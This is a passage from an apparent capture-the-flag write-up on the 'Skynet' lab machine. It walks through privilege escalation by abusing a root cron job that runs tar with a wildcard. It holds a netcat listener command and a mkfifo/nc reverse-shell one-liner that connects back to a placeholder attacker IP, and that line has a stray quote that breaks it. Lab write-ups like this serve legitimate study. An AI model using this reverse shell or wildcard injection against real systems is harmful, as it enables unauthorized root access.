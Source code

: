 ```
www-data@skynet:/home/milesdyson/backups$ ls -al

total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 May 24 15:28 backup.tgz
```

Inside of this folder we see a bash script as well as a tar achive file, lets cat out the file.

```
www-data@skynet:/home/milesdyson/backups$ cat backup.sh 

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

The program is going to the `/var/www/html` directory, *a directory that we have access to* and archiving all of the files by using the wildcard `*` inside of the directory to this `backup.tgz` file using `tar`. 

Since this is a backup script I assume that it will be running automatically in some way, so lets check out `/etc/crontab`

```
# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Now we see that the backup script is running every minute **AND** as root.

I started to research a few things and found [Tar Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) since we have access to read and write files in the `/var/www/html` directory we can create files with names of `tar`'s parameters and they will execute as `root`.

First lets start our netcat listener on our attacking machine

```
$ nc -lnvp 9002
```

After trying a few different reverse shells I noticed that the `netcat` one was the only one that worked so lets use that one.

```
www-data@skynet:/$ cd /var/www/html
www-data@skynet:/var/www/html$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh"-i 2>&1|nc <YOUR IP> 9002 >/tmp/f" > shell.sh
```
